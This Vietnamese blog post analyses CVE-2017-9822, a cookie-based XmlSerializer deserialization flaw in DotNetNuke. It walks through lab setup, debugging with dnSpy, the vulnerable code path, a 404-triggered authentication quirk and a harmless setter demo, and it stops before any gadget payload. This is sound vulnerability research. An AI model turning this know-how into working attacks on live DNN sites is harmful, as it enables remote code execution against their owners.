## 1. GIỚI THIỆU


Hôm nay tôi sẽ mang đến một bài blog về lỗ hổng deserialization. Dù đã xuất hiện gần 10 năm (2017 - 2026), nhưng các bài phân tích chuyên sâu cũng như PoC thực tế về lỗ hổng này không quá nhiều. Vì vậy, trong bài viết này tôi sẽ đi từ việc phân tích đến khai thác thực tế CVE này.

Trong thế giới web exploitation, deserialization luôn được xem là một trong những dạng bug "khó nhằn" nhất. Không chỉ vì việc khai thác đòi hỏi hiểu sâu về nội bộ ngôn ngữ và thư viện, mà còn vì mỗi nền tảng lại có cách xử lý hoàn toàn khác nhau.

Deserialization trong .NET là một trong những dạng khó khai thác nhất trong thực tế. Lý do là bởi nó không chỉ dừng lại ở việc kiểm soát dữ liệu đầu vào, mà còn liên quan đến việc hiểu cách runtime xử lý object, type system, cũng như xây dựng các gadget chain phù hợp để đạt được Remote Code Execution.

Trong .NET tồn tại nhiều cơ chế deserialization khác nhau, từ những formatter "nguy hiểm" như BinaryFormatter cho đến các cơ chế tưởng chừng an toàn hơn như XmlSerializer. Trong bài viết này, chúng ta sẽ làm việc với một biến thể sử dụng XML (XmlSerializer). So với các formatter khác, XmlSerializer có nhiều ràng buộc hơn về kiểu dữ liệu, và thường được xem là một trong những dạng khó khai thác nhất.

Nếu bạn chưa quen với khái niệm deserialization, tôi khuyến khích đọc phần reference bên dưới trước khi tiếp tục.

Chém gió đủ rồi, cùng bắt đầu nhé.



CVE [1] này DNN < 9.1.1 và DNN 9.1.1 trở lên (đã được vá)

Vì vậy tôi sẽ tải DNN 9.1.0 để poc lại nhé.

```
https://github.com/dnnsoftware/Dnn.Platform/releases/tag/v9.1.0
```

---

## 2. CÀI ĐẶT MÔI TRƯỜNG LAB
### 2.1. Cài đặt APP DNN 9.1.0


Tiến hành tải phiên bản này về



Sau khi tải về tiến hành cấu hình IIS, tiến hành cấu hình domain và đường dẫn trỏ đến CMS này.



Cấp quyền NTFS cho Application Pool của IIS khi cài DNN (DotNetNuke). Cụ thể, bạn thêm tài khoản `IIS AppPool\<TênAppPool>` (ví dụ: IIS AppPool\dnn910.clapobiz) vào tab Security của thư mục DNN và cấp quyền Modify để website có thể ghi file, tạo cache và truy cập thư mục App_Data. Đây là bước bắt buộc để tránh lỗi 500 hoặc "Access Denied" khi chạy DNN trên IIS.



cấp quyền Modify thành công cho Application Pool (dnn910.clapobiz) trên thư mục DNN. Điều này cho phép website DNN có quyền đọc, ghi, tạo và chỉnh sửa file (như App_Data, cache, upload…) khi chạy trên IIS. Đây là cấu hình đúng và đủ để DNN hoạt động bình thường, không cần cấp Full Control.



Tiến hành tạo DB cho CMS DNN.



Security → Logins → New Login để tạo tài khoản dnn910_Acc1 với SQL Server authentication. Tài khoản này sẽ được dùng để kết nối database cho DNN, sau đó bạn cần map nó với database DNN và cấp quyền (thường là db_owner) để website có thể tạo bảng và ghi dữ liệu khi cài đặt.



Tiến hành gán user tương ứng với DB và cấp quyền cho user.



Nhưng khi tôi truy cập vào `dnn910.clapboiz` thì báo lỗi, Lỗi này không phải do DNN hay IIS, mà do DNS chưa trỏ `domain dnndev.me` về máy của bạn.

Để khắc phục, tiến hành chỉnh sửa file hosts tại:

```
C:\Windows\System32\drivers\etc\hosts
```

với quyền Administrator, và thêm dòng:

```
127.0.0.1 dnn910.clapboiz
```



Sau khi lưu lại và truy cập lại, ứng dụng tiếp tục trả về lỗi:

```
HTTP Error 500.19
Error Code: 0x80070021
This configuration section cannot be used at this path...
```

Phần bị highlight:

```
<handlers>
   <remove name="WebServiceHandlerFactory-Integrated" />
</handlers>
```

Điều này cho thấy section handlers trong web.config đang bị lock ở cấp server (applicationHost.config). Đây là lỗi thường gặp khi IIS chưa được cấu hình đầy đủ cho ứng dụng ASP.NET.

Cụ thể, lỗi này thường xuất hiện trong các trường hợp:

+ IIS chưa bật ASP.NET đúng version
+ Hoặc IIS chưa bật đủ feature .NET
+ Hoặc handler section đang bị lock



Bạn cần bật 4 thành phần đó vì DNN là một ứng dụng ASP.NET WebForms chạy trên IIS, trong khi IIS mặc định chỉ phục vụ file tĩnh như HTML hoặc CSS và không xử lý được file .aspx hay cấu hình trong web.config. Khi bật .NET Extensibility, ASP.NET 4.8, ISAPI Extensions và ISAPI Filters, bạn đang kích hoạt runtime ASP.NET và pipeline xử lý cần thiết để IIS có thể thực thi code .NET. Nếu không bật các thành phần này, IIS sẽ không hiểu cấu hình trong web.config của DNN và dẫn đến lỗi 500.19 (0x80070021).

Mở cmd với quyền admin và chạy 

```
iisreset
```

sau đó truy cập lại vào domain DNN



Truy cập lại ứng dụng, lúc này DNN đã load thành công.



Nhưng sao không setup được nhỉ? 



Tiến hành vào bật `SQL server and windows authentication mode` lên nhé. Sau khi bật vẫn bị lỗi tương tự trên. Bây giờ chúng ta tiến hành check xem thử Sql server có connect được với account đó không nhé.



Đó :D, lỗi liên quan đến SQL rồi.

Lỗi truy cập database với SQL Authentication thường không phải do DNN hay ứng dụng, mà do:

+ Login và User không mapping đúng
+ Default Database sai
+ Login bị disable
+ Mật khẩu không chính xác

Sau khi kiểm tra, lỗi không nằm ở DNN mà đến từ SQL Server với code 18456. Đây là lỗi khá phổ biến khi login không truy cập được database.

Nguyên nhân thường gặp nhất trong case này là login và user không còn mapping đúng với nhau. Trong SQL Server, login (cấp server) và user (cấp database) là hai thực thể riêng biệt. Nếu trước đó login bị xóa rồi tạo lại, rất dễ xảy ra tình trạng user trong database vẫn tồn tại nhưng không còn liên kết - hay còn gọi là orphan user.

Cách xử lý nhanh nhất là mapping lại user với login:

```
USE dnn910_DB;
ALTER USER dnn910_Acc1 WITH LOGIN = dnn910_Acc1;
```

Nếu vẫn không được thì đơn giản là xóa user cũ và tạo lại từ đầu:

```
USE dnn910_DB;
DROP USER dnn910_Acc1;
CREATE USER dnn910_Acc1 FOR LOGIN dnn910_Acc1;
EXEC sp_addrolemember 'db_owner', 'dnn910_Acc1';
```

Ngoài ra cũng nên check thêm default database của login để tránh lỗi phát sinh:

```
ALTER LOGIN dnn910_Acc1 
WITH DEFAULT_DATABASE = dnn910_DB;
```

Sau khi fix xong, thử connect lại thì đã truy cập được database bình thường.



Login thành công và config thành công DNN. Tiến hành nghiên cứu CVE thôi.

Đọc tài liệu gốc do Alvaro Muñoz & Oleksandr Mirosh công bố tại BlackHat 2017 [3], bao gồm toàn bộ nghiên cứu về insecure deserialization trên Java và .NET, cũng như danh sách gadget chain RCE - nền tảng lý thuyết quan trọng để khai thác CVE‑2017‑9822 trong DotNetNuke.



DNN lưu thông tin phiên của user chưa đăng nhập vào cookie DNNPersonalization dưới dạng XML. Khi xử lý, server sẽ đọc thuộc tính type trong XML và khởi tạo XmlSerializer tương ứng với kiểu này.

Vấn đề nằm ở chỗ attacker có thể kiểm soát hoàn toàn giá trị cookie, đồng nghĩa với việc họ có thể chỉ định bất kỳ kiểu object nào để hệ thống deserialize. Mặc dù XmlSerializer có một số giới hạn nhất định, nhưng có thể bypass bằng cách sử dụng các kiểu trung gian (như generic wrapper) để đưa các object nguy hiểm vào quá trình deserialize.



Tiến hành tìm kiếm DNNPersonalization trong source code, có thể thấy profileData chính là biến nhận giá trị từ cookie này, sau đó được truyền vào hàm Globals.DeserializeHashTableXml().



Tiếp tục trace xuống, ta thấy giá trị cookie sẽ được parse thành XML, sau đó hệ thống sử dụng thuộc tính type để gọi Type.GetType() và khởi tạo XmlSerializer. Điều này đồng nghĩa với việc input có thể quyết định trực tiếp kiểu object được deserialize.



Trong hàm DeserializeHashTable(), ứng dụng load XML từ xmlSource bằng XmlDocument, sau đó dùng XPath để lấy các node item bên trong profile. Với mỗi node, chương trình đọc hai thuộc tính quan trọng là key và type.

Điểm nguy hiểm nằm ở chỗ giá trị type được lấy trực tiếp từ XML và truyền vào Type.GetType() mà không có bất kỳ kiểm soát nào. Sau đó, XmlSerializer.Deserialize() sẽ được gọi để chuyển dữ liệu XML thành object và lưu vào Hashtable.

→ Nói đơn giản: attacker kiểm soát được XML đầu vào → kiểm soát luôn kiểu object được deserialize → từ đó có thể trigger các gadget chain và dẫn đến RCE.

**Để tôi tóm gọn lại flow nhé:**

Flow của lỗ hổng bắt đầu từ cookie DNNPersonalization. Khi người dùng gửi request, hệ thống sẽ đọc giá trị của cookie này và gán vào biến profileData. Giá trị này hoàn toàn do phía client kiểm soát.

Sau đó, profileData được truyền trực tiếp vào hàm Globals.DeserializeHashTableXml(), hàm này tiếp tục gọi XmlUtils.DeSerializeHashtable() để parse dữ liệu XML. Trong quá trình xử lý, chương trình đọc các phần tử item trong node profile và lấy thuộc tính type từ XML.

Giá trị type này được truyền vào Type.GetType() để khởi tạo XmlSerializer, sau đó phương thức XmlSerializer.Deserialize() được gọi để deserialize nội dung XML thành object. Như vậy, kiểu object được deserialize phụ thuộc hoàn toàn vào dữ liệu XML do người dùng cung cấp.

Do dữ liệu đầu vào không được kiểm soát, attacker có thể sửa giá trị cookie DNNPersonalization để chèn XML độc hại và chỉ định các kiểu object nguy hiểm. Điều này cho phép kiểm soát quá trình deserialize và từ đó trigger các gadget chain, dẫn đến RCE.



Flow minh họa như hình.

Về cách khắc phục đối với loại bug này:

Ứng dụng không nên tin tưởng dữ liệu deserialize đến từ phía client, đặc biệt khi dữ liệu đó có thể kiểm soát kiểu object thông qua thuộc tính type.

Một số hướng xử lý an toàn hơn:

+ Không deserialize trực tiếp dữ liệu do client cung cấp
+ Áp dụng whitelist các kiểu object được phép deserialize
+ Không lưu dữ liệu nhạy cảm trong cookie (hoặc phải ký / mã hóa để đảm bảo integrity)

Chúng ta tiến hành reverse file DLL của ứng dụng bằng công cụ dnspy và tiến hành đọc code của nó xem sao nhé.

---

### 2.2. Cài đặt debugger


Chúng ta tiến hành load file `DotNetNuke.dll` vào `dnspy` và chọn `Edit Assembly Attributes (C#)`



Mục tiêu ở đây là ép assembly chạy theo chế độ debug-friendly, giúp việc đặt breakpoint và trace flow chính xác hơn. Với build mặc định (Release), JIT sẽ tối ưu hóa code khá mạnh, dẫn đến việc:

+ Code bị inline hoặc reorder
+ Một số biến bị optimize out
+ Mapping giữa IL và native code không còn chính xác

Trong .NET, code sau khi compile sẽ được chuyển thành IL (Intermediate Language) thay vì chạy trực tiếp. Khi chương trình thực thi, JIT (Just-In-Time) Compiler sẽ dịch IL này sang native code tương ứng với hệ thống.

Trong quá trình này, JIT có thể áp dụng nhiều optimization như inlining, reorder instruction hoặc loại bỏ biến không cần thiết. Điều này giúp tăng hiệu năng, nhưng lại khiến code thực thi không còn bám sát với IL ban đầu, dẫn đến hiện tượng "debug lệch".

→ Vì vậy, khi debug (đặc biệt trong các case deserialization gadget chain), ta cần tắt optimization để đảm bảo flow thực thi bám sát IL và dễ theo dõi hơn.


Đổi dòng số 11 từ:

```
[assembly: Debuggable(DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints)]
```

thành:

```
[assembly: Debuggable(DebuggableAttribute.DebuggingModes.Default | DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints | DebuggableAttribute.DebuggingModes.EnableEditAndContinue | DebuggableAttribute.DebuggingModes.DisableOptimizations)]
```

Về mặt kỹ thuật, DebuggableAttribute được CLR đọc ngay khi load assembly và dùng để thiết lập JIT compilation flags cho toàn bộ module. Với cấu hình ban đầu (Release), JIT sẽ:

+ Enable full optimizations (Tiered compilation, inlining, dead code elimination)
+ Không giữ mapping chặt giữa IL ↔ native code
+ Có thể loại bỏ local variables hoặc gộp stack frame

Điều này dẫn đến việc native code sau JIT không còn tương ứng 1-1 với IL, gây ra hiện tượng "debug lệch".

Sau khi chỉnh sửa, các flag mới sẽ tác động trực tiếp đến pipeline của JIT:

+ DisableOptimizations

   → Tắt toàn bộ optimization phase trong JIT (bao gồm inlining, constant folding, loop unrolling).

   → Mỗi IL instruction gần như được preserve khi chuyển sang native code.

+ EnableEditAndContinue

   → Buộc runtime giữ metadata cần thiết để hỗ trợ re-JIT method.
   
   → JIT không được phép "hard-optimize" vì cần đảm bảo khả năng patch code tại runtime.
+ Default

   → Bật JIT tracking (mapping giữa IL offset và native instruction pointer).

   → Debugger có thể resolve chính xác vị trí thực thi.

IgnoreSymbolStoreSequencePoints
   
   → Cho phép runtime fallback sang implicit sequence points nếu không có PDB, tránh phụ thuộc symbol file.

**Cấu hình JIT trước và sau khi chuyển sang chế độ debug-friendly**

| Aspect                  | Release (Trước)                                      | Sau khi sửa (Debug-friendly)                          |
|------------------------|------------------------------------------------------|--------------------------------------------------------|
| Optimization           | Bật (inlining, reorder, dead code elimination, ...) | Bị hạn chế mạnh (disable phần lớn optimization)        |
| IL ↔ Native mapping    | Bị suy giảm do optimization                          | Được giữ ổn định, bám sát IL hơn                       |
| Variable lifetime      | Có thể bị loại bỏ hoặc không còn track được          | Được giữ lại để phục vụ debug                          |
| Breakpoint accuracy    | Có thể lệch hoặc không hit đúng vị trí               | Chính xác hơn, bám sát flow thực thi                   |

Điểm quan trọng là cách này không thay đổi IL, mà chỉ thay đổi cách IL được materialize thành native code. Do đó, nó đặc biệt hữu ích trong các scenario như:

+ Reverse engineering assembly không có source
+ Debug behavior bất thường trong production build
+ Phân tích malware .NET hoặc obfuscated binary

So với việc dùng environment variables (DOTNET_JITMinOpts), cách sửa attribute này mang tính persistent (gắn trực tiếp vào assembly), giúp đảm bảo mọi lần load sau đều sử dụng debug-oriented JIT configuration mà không phụ thuộc vào môi trường runtime.



Nói cho lắm rồi fail v:. Quê vãi v:



Lỗi xảy ra do assembly đang ở trạng thái AnyCPU (agnostic) nhưng lại tham chiếu tới module phụ thuộc kiến trúc như System.EnterpriseServices.Wrapper.dll (chỉ chạy được trên x86/x64), khiến CLR không cho phép compile lại vì mismatch platform. Nguyên nhân thường do khi dùng dnSpy để chỉnh sửa và recompile, tool mặc định giữ AnyCPU trong khi assembly gốc có dependency native/COM. Cách sửa nhanh là không rebuild mà chỉ "Save Module", hoặc nếu buộc phải compile thì vào phần Save Module → PE và bật 32BitRequired (hoặc set đúng x86/x64) để đồng bộ kiến trúc với dependency.

→ Vẫn lỗi, quê vãi v:

Thôi thì tải dnspy 32-bit v:



Vậy là thành công v:v: Việc phải dùng dnSpy 32-bit để compile không phải vì DotNetNuke.dll là 32-bit, mà do assembly này có reference tới một module phụ thuộc kiến trúc (System.EnterpriseServices.Wrapper.dll). Khi dùng dnSpy 64-bit, compiler phát hiện sự không tương thích giữa assembly AnyCPU và dependency theo kiến trúc nên báo lỗi CS8010. Trong khi đó dnSpy 32-bit chạy trong môi trường x86 nên resolve dependency này hợp lệ và compile được.

---

## 3. PHÂN TÍCH ROOT CAUSE


Trong quá trình debug, cần truy cập ứng dụng (ví dụ mở trang web) để IIS khởi tạo tiến trình w3wp.exe. Sau khi process này đã chạy, dnSpy 32-bit vẫn không hiển thị được do không tương thích kiến trúc (tiến trình đang chạy 64-bit). Chỉ khi sử dụng dnSpy 64-bit và chạy với quyền admin thì mới có thể thấy và attach vào w3wp.exe.



Tiếp theo, liệt kê toàn bộ các module đã được nạp bởi tiến trình w3wp.exe bằng cách vào Debug → Windows → Modules.



Sau khi attach thành công, sử dụng Break All để tạm dừng tiến trình w3wp.exe. Tại thời điểm này, toàn bộ các module đã load có thể được kiểm tra thông qua cửa sổ Modules, cho phép tiếp tục phân tích và decompile các assembly liên quan.



Nhấn vào một module bất kỳ, sau đó chọn Open All Modules để mở toàn bộ các module tương ứng. Trong quá trình debug ứng dụng chạy trên IIS (tiến trình w3wp.exe), việc `mở các module` trong dnSpy là cần thiết vì khi bạn chỉ attach vào process, dnSpy mới chỉ nhận diện được danh sách các DLL đang được load trong bộ nhớ chứ chưa có mã nguồn (IL đã decompile) để bạn phân tích. Khi sử dụng `Open All Modules`, dnSpy sẽ nạp và decompile toàn bộ các assembly này, giúp bạn xem code, đặt breakpoint và theo dõi luồng thực thi. Việc "Break All" trước đó giúp tạm dừng tiến trình, đảm bảo các module đã được load đầy đủ và ổn định, từ đó việc debug mới chính xác và hiệu quả.



Trong IIS, việc xuất hiện hai file DotNetNuke.dll là do cơ chế shadow copy: một bản nằm trong thư mục /bin (file bạn sửa) và một bản được IIS load vào runtime từ Temporary ASP.NET Files. Breakpoint chỉ hoạt động trên assembly thực sự đang được load trong process w3wp.exe, nên nếu bạn đặt breakpoint ở bản DLL gốc thì sẽ không hit, còn bản trong thư mục temporary thì sẽ hoạt động bình thường. Vì vậy, khi debug, cần luôn attach đúng process, mở module từ cửa sổ Modules và đặt lại breakpoint trên bản đang chạy trong memory, không phải file trên disk.



Vì vậy, khi đặt breakpoint trên file DLL gốc (trong thư mục /bin), dnSpy sẽ cảnh báo rằng breakpoint sẽ không được hit do module này không phải là bản đang được load trong runtime.



Và khi chúng ta đặt breakpoint trên bản DLL đã được IIS load (trong Temporary ASP.NET Files), breakpoint sẽ hoạt động bình thường.



Vậy là đã hit thành công breakpoint rồi nhé :3 

Ngoài ra, khi debug với dnSpy, chỉ nhìn vào tab Locals là chưa đủ. Locals chỉ cho biết giá trị các biến tại thời điểm hiện tại, nhưng không phản ánh được ngữ cảnh thực thi (execution context) và chuỗi lời gọi hàm đã dẫn đến trạng thái đó.

Trong khi đó, Call Stack cung cấp toàn bộ chuỗi các hàm đã được gọi, cho phép lần ngược lại nguồn gốc của vấn đề - điều này đặc biệt quan trọng khi làm việc với các hệ thống nhiều tầng như DotNetNuke.

Bạn có thể mở cửa sổ Call Stack bằng cách vào Debug → Windows → Call Stack hoặc sử dụng Ctrl + Alt + C để theo dõi luồng thực thi một cách đầy đủ hơn.

---

## 4. ĐIỀU KIỆN TRIGGER DESERIALIZATION VÀ PHÂN TÍCH CƠ CHẾ AUTHENTICATION

Nhưng bạn có bao giờ thắc mắc vì sao chỉ khi trả về status code 404 thì breakpoint mới được hit, còn với 200 OK thì lại không? [5,6,7,8]

Thứ nhất, HTTP modules được mô tả là xử lý mọi HTTP request ("each HTTP request"), nghĩa là cả request bình thường lẫn request lỗi đều đi qua pipeline này.

Thứ hai, module Personalization được thiết kế để load dữ liệu người dùng từ dạng serialized XML ngay từ đầu request, tức là có khả năng thực hiện deserialize trong quá trình xử lý.

Thứ ba, module Exception được hook vào sự kiện Error và vẫn tiếp tục xử lý khi có lỗi xảy ra, cho thấy các request lỗi (như 404) không bị dừng sớm mà vẫn đi qua các nhánh xử lý tương ứng.

Từ các dẫn chứng này, có thể suy ra rằng 404 không phải là nguyên nhân trực tiếp gây ra deserialize, mà là một điều kiện khiến request có xu hướng đi qua các nhánh xử lý đặc biệt trong pipeline, từ đó tăng khả năng Personalization module được truy cập và dữ liệu bị deserialize.

Và trong code DNN cũng có:

```
if (HttpContext.Current.Items["Personalization"] == null)
{
    httpContext.Items.Add("Personalization", LoadProfile(userId, portalId));
}
```

Việc load dữ liệu Personalization được thực hiện theo cơ chế lazy-loading, thể hiện qua việc kiểm tra HttpContext.Items["Personalization"] trước khi khởi tạo.

Điều này đồng nghĩa với việc dữ liệu profile chỉ được load khi có code path thực sự truy cập tới nó (tức là có thành phần trong hệ thống sử dụng HttpContext.Items["Personalization"]).

Nếu trong một request không có logic nào yêu cầu Personalization, đoạn code khởi tạo sẽ không được thực thi, và do đó quá trình deserialize dữ liệu từ cookie cũng không xảy ra.

Điều này giải thích tại sao các request thông thường (200 OK) không nhất thiết kích hoạt lỗ hổng, trong khi các luồng xử lý đặc biệt (như 404) có thể dẫn đến việc load Personalization và trigger deserialization.



Ta có thể thấy rằng CVE này yêu cầu quyền `LOW` để khai thác. Tuy nhiên, bằng một số biện pháp nghiệp vụ, tôi vẫn có thể thực hiện khai thác trong trạng thái unauthenticated :>



Khi attach debugger và theo dõi Call Stack của request 404, có thể thấy luồng thực thi đi qua AdvancedUrlRewriter.Handle404OrException. Đây là một điểm quan trọng vì nó cho thấy request đã được chuyển sang nhánh xử lý lỗi thay vì pipeline thông thường.

Thay vì đọc toàn bộ method (khá dài), ta tập trung vào các đoạn có khả năng làm thay đổi hướng xử lý request, cụ thể là các API quen thuộc trong ASP.NET như:

+ response.Redirect(...)
+ server.Transfer(...)
+ RewritePath(...)
+ 404 StatusCode

Từ đó, xác định được vị trí đáng chú ý và đặt breakpoint tại:

```
context.User = Thread.CurrentPrincipal;
```

Đây là nơi trạng thái xác thực của request có thể bị ảnh hưởng trong quá trình xử lý.



Khi breakpoint được hit, tiến hành inspect các giá trị trong HttpContext và nhận thấy một điểm bất thường: ban đầu context.User có giá trị null, thể hiện request chưa được xác thực. 



Tuy nhiên, ngay sau đó `context.User` lại được gán bằng `Thread.CurrentPrincipal`. Khi debug, có thể thấy Thread.CurrentPrincipal là một WindowsPrincipal với identity cụ thể là `IIS APPPOOL\dmn910.clapboiz (AuthenticationType = "Negotiate")`.

Kiểm tra sâu hơn cho thấy `Thread.CurrentPrincipal mang AuthenticationType = "Negotiate"`, tức là request hiện tại được hệ thống coi như đã được xác thực.

Điều đáng chú ý là mặc dù request ban đầu không hề chứa thông tin đăng nhập, nhưng thông qua nhánh xử lý 404, hệ thống đã vô tình gán một principal hợp lệ vào HttpContext. Hệ quả là các kiểm tra như Request.IsAuthenticated ở các bước xử lý sau đều trả về true, từ đó cho phép request đi qua các logic vốn chỉ dành cho user đã đăng nhập.

Thực chất, identity được gán ở đây không phải của user gửi request, mà là identity của worker process (IIS Application Pool). Do identity này có IsAuthenticated = true, hệ thống đã hiểu nhầm request là đã được xác thực.



Để xác thực trạng thái của request ở mức framework, tôi sử dụng HttpContext.Current.Request.IsAuthenticated và theo dõi giá trị này thông qua cửa sổ Watch trong dnSpy khi debug. Cửa sổ Watch cho phép đánh giá các biểu thức (expressions) tại runtime mà không phụ thuộc vào các biến hiển thị trong Locals, từ đó giúp kiểm tra chính xác trạng thái của request tại từng bước thực thi.

Kết quả cho thấy HttpContext.Current.Request.IsAuthenticated = true, nghĩa là ASP.NET framework đã nhận định request này là đã được xác thực. Điều này khẳng định rằng việc gán Thread.CurrentPrincipal vào HttpContext.User không chỉ có thể làm sai lệch trạng thái nội bộ mà còn ảnh hưởng trực tiếp đến cơ chế authentication trong toàn bộ pipeline xử lý request.

---

## 5. CƠ CHẾ DESERIALIZATION TRONG CÁC NGÔN NGỮ

### 5.1. PHP - Magic Methods

Trong PHP, các method bắt đầu bằng `__` sẽ được tự động gọi trong các ngữ cảnh cụ thể.

| Method                              | Khi nào được gọi                          | Lưu ý                              |
| ----------------------------------- | ----------------------------------------- | ---------------------------------- |
| `__construct()`                     | Khi dùng `new Class()`                    | Không được gọi khi `unserialize()` |
| `__destruct()`                      | Khi object bị hủy (end request / `unset`) | Thường là sink nguy hiểm           |
| `__wakeup()`                        | Khi `unserialize()`                       | Entry point phổ biến nhất          |
| `__sleep()`                         | Khi `serialize()`                         |                                    |
| `__toString()`                      | Khi object bị cast sang string            | Có thể bị trigger gián tiếp        |
| `__call()`                          | Khi gọi method không tồn tại              |                                    |
| `__get()` / `__set()`               | Khi truy cập property inaccessible        |                                    |
| `__invoke()`                        | Khi object được gọi như function          |                                    |
| `__serialize()` / `__unserialize()` | PHP 7.4+                                  | Thay thế `__sleep/__wakeup`        |

**Ghi chú**

* `__wakeup()` thường là điểm bắt đầu khi deserialize
* `__destruct()` thường là nơi thực thi hành vi nguy hiểm
* Các method như `__toString()`, `__get()` có thể bị trigger gián tiếp trong chain

---

### 5.2. Java - Serialization Hooks

Java không dùng magic method nhưng có các hook đặc biệt trong quá trình serialization/deserialization.

| Method                                | Khi nào được gọi                   | Lưu ý                         |
| ------------------------------------- | ---------------------------------- | ----------------------------- |
| `readObject(ObjectInputStream in)`    | Khi deserialize                    | Entry point chính             |
| `writeObject(ObjectOutputStream out)` | Khi serialize                      |                               |
| `readResolve()`                       | Sau khi deserialize                | Có thể thay thế object trả về |
| `writeReplace()`                      | Trước khi serialize                |                               |
| `readExternal()`                      | Khi deserialize (`Externalizable`) | Toàn quyền kiểm soát          |
| `writeExternal()`                     | Khi serialize (`Externalizable`)   | Toàn quyền kiểm soát          |

**Ghi chú**

* `readObject()` là điểm trigger quan trọng nhất
* JVM vẫn gọi method này dù khai báo `private`
* `readResolve()` có thể thay đổi object cuối cùng (ảnh hưởng flow)

---

### 5.3. C# - BinaryFormatter

C# sử dụng constructor đặc biệt và callback attributes.

| Cơ chế                                              | Khi nào được gọi      | Lưu ý             |
| --------------------------------------------------- | --------------------- | ----------------- |
| Constructor `(SerializationInfo, StreamingContext)` | Khi deserialize       | Entry point chính |
| `ISerializable.GetObjectData()`                     | Khi serialize         |                   |
| `[OnDeserializing]`                                 | Trước khi deserialize |                   |
| `[OnDeserialized]`                                  | Sau khi deserialize   | Thường là sink    |
| `[OnSerializing]`                                   | Trước khi serialize   |                   |
| `[OnSerialized]`                                    | Sau khi serialize     |                   |

**Ghi chú**

* Constructor đặc biệt là điểm vào quan trọng
* `[OnDeserialized]` thường được dùng trong gadget chain

---

### 5.4. C# - XmlSerializer

XmlSerializer không có hook rõ ràng như các cơ chế trên.

| Cơ chế                 | Khi nào được gọi | Lưu ý                 |
| ---------------------- | ---------------- | --------------------- |
| Constructor mặc định   | Khi deserialize  | Bắt buộc              |
| Public property setter | Khi gán dữ liệu  | Execution point chính |
| Callback hooks         | Không có         |                       |

```csharp
public string Name
{
    set {
        Console.WriteLine("Triggered");
    }
}
```

**Ghi chú**

* Không có method đặc biệt được gọi tự động
* Logic nằm ở **property setter**
* Setter có thể trở thành điểm thực thi trong chain

---

### 5.5. Tổng kết

| Ngôn ngữ             | Điểm trigger chính       |
| -------------------- | ------------------------ |
| PHP                  | `__wakeup`, `__destruct` |
| Java                 | `readObject`             |
| C# (BinaryFormatter) | Constructor / callback   |
| C# (XmlSerializer)   | Property setter          |

---

### 5.6. Nhận xét

* Mỗi ngôn ngữ có cách trigger khác nhau
* Không phải lúc nào cũng là method "đặc biệt" rõ ràng
* Những điểm trigger này là nền tảng để xây dựng gadget chain trong khai thác deserialization

---

## 6. PHÂN TÍCH HÀNH VI CỦA XMLSERIALIZER TRONG QUÁ TRÌNH DESERIALIZE

Như đã phân tích ở trên, `profileData` trong trường hợp anonymous user thực chất được lấy từ cookie `DNNPersonalization`, đồng nghĩa với việc attacker có thể **toàn quyền kiểm soát dữ liệu đầu vào**. Khi đó, đoạn code xử lý trở thành **sink của lỗ hổng deserialization**, với input là XML không đáng tin cậy.

Quan sát sâu hơn vào quá trình deserialize, hệ thống sử dụng `XmlSerializer` với kiểu dữ liệu được lấy trực tiếp từ input:

```csharp
var xser = new XmlSerializer(Type.GetType(typeName));
xser.Deserialize(reader);
```

Điểm đáng chú ý ở đây là attacker không chỉ kiểm soát nội dung XML, mà còn kiểm soát cả **kiểu object sẽ được deserialize**.

---

### 6.1. XmlSerializer thực sự làm gì khi deserialize?

Một câu hỏi quan trọng được đặt ra:

> Khi `XmlSerializer` thực hiện deserialize, nó chỉ đơn thuần parse XML thành object, hay có thể kích hoạt logic bên trong object đó?

Để trả lời, ta xây dựng một ví dụ tối giản nhằm quan sát trực tiếp hành vi của `XmlSerializer`. Ý tưởng là nếu trong quá trình deserialize, setter của property được gọi, thì mọi logic bên trong setter cũng sẽ được thực thi.

```csharp
using System;
using System.IO;
using System.Xml.Serialization;

namespace Test_Deserialize
{
    public class DemoClass
    {
        private string _message;

        public string Message
        {
            get { return _message; }
            set
            {
                Console.WriteLine("[+] Setter called with value: " + value);
                _message = value;
            }
        }
    }

    class Program
    {
        static void Main(string[] args)
        {
            var serializer = new XmlSerializer(typeof(DemoClass));

            // ====== Lấy đường dẫn về thư mục project ======
            var baseDir = AppDomain.CurrentDomain.BaseDirectory;
            var projectDir = Path.GetFullPath(Path.Combine(baseDir, @"..\..\.."));
            var filePath = Path.Combine(projectDir, "obj.xml");

            Console.WriteLine("[*] Saving XML to: " + filePath);

            // ====== (1) Serialize object ra file XML ======
            using (var writer = new StreamWriter(filePath))
            {
                serializer.Serialize(writer, new DemoClass { Message = "Hello World" });
            }

            // ====== (2) Đọc lại XML từ file ======
            string xmlPayload = File.ReadAllText(filePath);

            // ====== (3) Deserialize ======
            using (var reader = new StringReader(xmlPayload))
            {
                Console.WriteLine("[*] Start deserialization...");
                var obj = (DemoClass)serializer.Deserialize(reader);
                Console.WriteLine("[*] Done!");
            }

            Console.ReadLine();
        }
    }
}
```



Khi thực thi, có thể quan sát thấy setter của property `Message` được gọi **ngay trong quá trình deserialize**.

Điều này cho thấy `XmlSerializer` không chỉ đơn thuần ánh xạ dữ liệu từ XML sang object, mà thực chất sẽ **gán giá trị thông qua các property**, từ đó dẫn đến việc thực thi toàn bộ logic nằm trong setter.

---

### 6.2. Kết luận

- Attacker có thể kiểm soát:
  - Dữ liệu XML (thông qua cookie)
  - Kiểu object (`Type.GetType(typeName)`)

- Trong khi đó, `XmlSerializer` sẽ:
  - Khởi tạo object
  - Gán giá trị thông qua property (trigger setter)

Điều này mở ra khả năng attacker có thể **kích hoạt các logic bên trong object được deserialize**.

Nói cách khác, đây không còn chỉ là việc "parse dữ liệu", mà là một primitive có thể dẫn tới **thực thi code gián tiếp**, nếu tồn tại class phù hợp (gadget) trong ứng dụng hoặc framework.

---

## 7. KHAI THÁC LỖ HỔNG
### 7.1. Tìm và phân tích Gadget Chain (ObjectDataProvider)
Đây chính là luồng serialize → deserialize của ứng dụng. Từ đó, mục tiêu của chúng ta khá rõ ràng: xây dựng một payload đã được serialize và đưa nó vào deserialization sink. Khi quá trình deserialize diễn ra, payload này sẽ kích hoạt các hành vi ngoài ý muốn, chẳng hạn như gọi các method nguy hiểm, và trong nhiều trường hợp có thể dẫn tới thực thi mã (RCE).

Để làm được điều này, bước tiếp theo là tìm một gadget chain phù hợp.

